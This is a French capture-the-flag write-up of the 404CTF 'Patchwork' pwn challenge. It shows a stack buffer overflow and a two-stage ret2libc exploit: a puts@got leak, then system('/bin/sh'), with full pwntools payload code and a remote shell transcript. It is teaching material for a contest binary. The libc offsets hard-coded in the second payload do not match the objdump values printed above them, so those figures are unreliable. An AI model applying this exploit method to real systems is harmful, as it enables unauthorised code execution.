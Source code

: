 ## PWN / Patchwork

<p align="center">
  <img src="img/consignes.png" />
</p>


### Look around


Un petit tour sur l'interface du challenge :

```bash
$ nc challenge.404ctf.fr 30690
Bonjour, si vous avez trouvé cet accès, c'est probablement qu'un de nos collaborateurs vous en a parlé.
Veuillez décliner votre identité et votre profession :
hacker
Vous n'êtes pas le bienvenu
```

Pour le moment le serveur prend un input et répond en fonction.
Rien de très évident.


### Analyse statique

```bash
$ checksec recrutement
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/recrutement'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Au niveau des mécanismes de sécurité, le NX et (sûrement) l'ASLR sur le serveur laissent penser qu'il faudra passer par une ROP chain (par ailleurs le challenge fournissant la libc utilisée ... il est fort probable qu'on utilise un ret2libc, ou plutôt ret2plt à cause de l'ASLR).



On peut alors regarder le code du binaire qui est fournit, il n'y a qu'une fonction intéressante :

```c
int main(void)
{
  char user_prof [64];
  char user_info [56];
  char *check;

  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_00400788);
  puts(&DAT_004007f8);
  fgets(user_prof,0x32,stdin);
  check = strstr(user_prof,"scientifique");
  if (check == (char *)0x0) {
    puts(&DAT_004008d4);
  }
  else {
    puts(&DAT_00400840);
    fgets(user_info,0x78,stdin);
    puts("Merci, nous reviendrons vers vous sous peu.");
  }
}
```

Intéressant, si notre profession est `scientifique`, nous pourrons alors accéder à une nouvelle fonctionnalité, qui contient une vulnérabilité : la deuxième saisie est stockée dans un buffer `user_info` de 56 octets, mais nous pouvons en saisir 0x78 (120).


### Exploit

Finalement l'exploit est assez classique, après avoir saisi `scientifique` dans le 1er input nous allons pouvoir exploiter la vulnérabilisé du second :

- remplir le buffer
- écraser la sauvegarder de RIP
- obtenir un leak d'une adresse de la libc
- rappeler `main`
- effectuer un deuxième buffer overflow, mais en profitant du leak précédent pour réaliser un `system("/bin/sh")` et avoir un shell.


##### Stack Frame


Juste après avoir saisi le 2e input :

```bash
0x7fffffffdee0:	0x6669746e65696373	0x0000000a65757169 <= 'scientifique'
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000000000	0x00000000010cb657
0x7fffffffdf20:	0x4141414141414141	0x4242424242424242 <= 2e input
0x7fffffffdf30:	0x4343434343434343	0x4444444444444444
0x7fffffffdf40:	0x000000000040000a	0x0000000000400560
0x7fffffffdf50:	0x00007fffffffe050	0x00007fffffffdee0
0x7fffffffdf60:	0x0000000000400700	0x00007ffff7e0ed0a <= 0x400700 saved RBP / adresse de retour de main dans la libc
0x7fffffffdf70:	0x00007fffffffe058	0x00000001ffffe369
```

Donc en saisissant 10 * 8 octet on réécrit l'adresse de retour de main.


##### Leak

Pour obtenir un leak, on va pouvoir utiliser la fonction `puts`, pratique pour nous afficher un retour et surtout appelée plus haut dans le programme.

A l'initialisation du programme, celui-ci ne sait pas où sont les fonctions importées de la libc (ASLR), pour cela il utilise un mécanisme de résolution :

https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got

Pour faire court, lorsque la fonction est appelée une première fois, son adresse est retrouvée en mémoire, puis stockée. C'est l'offset de `puts` dans la `got` qui pointe vers elle, et `puts` dans la `plt` pointe vers la `got`.

Finalement si on appelle : `puts(puts@got)` on leak l'adresse réelle de puts en mémoire au moment de l'execution.

La libc utilisée par le serveur nous est gentiment fournit, ce qui est pratique, car si l'ASLR charge aléatoirement la libc en mémoire, cette dernière est chargée d'un bloc. Du coup, les offset des différentes fonctions avec la base de la libc restent les mêmes :

`leak_puts - offset_puts_libc = aslr_decalage`



Pour faire tout ça on cherche les offset des fonctions et gadgets nécessaires dans le code du binaire, et on obtient notre premier payload.

```bash
objdump -S recrutement

0000000000400520 <puts@plt>:
  400520:	ff 25 f2 0a 20 00    	jmpq   *0x200af2(%rip)        # 601018 <puts@GLIBC_2.2.5>
  400526:	68 00 00 00 00       	pushq  $0x0
  40052b:	e9 e0 ff ff ff       	jmpq   400510 <.plt>
```




```python
pop_rdi = 0x400763 # pop rdi ; ret
puts_plt = 0x400520
puts_got = 0x601018
main = 0x400647
ret = 0x400506

payload = b""
payload += b"scientifique"
payload += b"A" * (0x32 - 12  - 1) #fill first fgets

payload += b"B" * 0x38
payload += p64(0) #adresse stack
payload += p64(0) #p64(0x400700) # saved rbp
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
payload += b"B"  * (0x78 - 0x38 - (6 * 8)  - 3) #fill second fgets
```

Avec l'addresse de main en dernière instruction, pour revenir au début et pouvoir renvoyer un second payload.


##### Get a shell

Une fois le leak obtenu :
- récuperer les bons offsets dans la libc
- calculer des décalages pour bypasser l'ASLR
- renvoyer un payload pour faire cette fois un appel à `system`.


Heureusement pour nous, tout est présent et accéssible dans la libc, même la chaîne de caractères `/bin/sh`

```bash

$ objdump -S libc-2.27.so| grep puts

0000000000080970 <_IO_puts@@GLIBC_2.2.5>:

$ objdump -S libc-2.27.so| grep system
000000000004f420 <__libc_system@@GLIBC_PRIVATE>:

$ strings -t x libc-2.27.so | grep "/bin/sh"
 1b3d88 /bin/sh
```

```python
sys_libc = 0x4f550
puts_libc = 0x80aa0
bin_sh_libc = 0x1b3e1a

offset = u64(leak) - puts_libc
sys = offset + sys_libc
bin_sh = offset + bin_sh_libc

payload2 = b"scientifique"
payload2 += b"A" * (0x32 - 12 - 1) #fill third fgets

payload2 += b"B" * 0x38
payload2 += p64(0)
payload2 += p64(0)
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(ret)  # simple ret for stack alignement
payload2 += p64(sys)
payload2 += b"B" * (0x78 - 0x38 - (6*8) )
```

`system` s'attend à trouver une stack alignée sur `0x10`, c'est ce que permet le `ret` avant l'appel final.



```bash
$ python3 recrutement.py REMOTE
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/recrutement'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/maskott/ctf_404_2022/pwn/patchwork/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.404ctf.fr on port 30690: Done
[+] Leak : 0x7fa5dc86d970
b'Votre profil nous int\xc3\xa9resse, veuillez rentrer les informations compl\xc3\xa9mentaires de votre candidature :\nMerci, nous reviendrons vers vous sous peu.\np\xd9\x86\xdc\xa5\x7f\n'
[+] Offset : 0x7fa5dc7ed000
[+] Sys : 0x7fa5dc83c420
[+] /bin/sh : 0x7fa5dc9a0d88
[*] Switching to interactive mode
Bonjour, si vous avez trouvé cet accès, c'est probablement qu'un de nos collaborateurs vous en a parlé.
Veuillez décliner votre identité et votre profession :
Votre profil nous intéresse, veuillez rentrer les informations complémentaires de votre candidature :
Merci, nous reviendrons vers vous sous peu.
$ ls
flag.txt
recrutement
$ cat flag.txt
404CTF{C3_r3CrU73M3N7_N357_P45_53CUr153!}
```
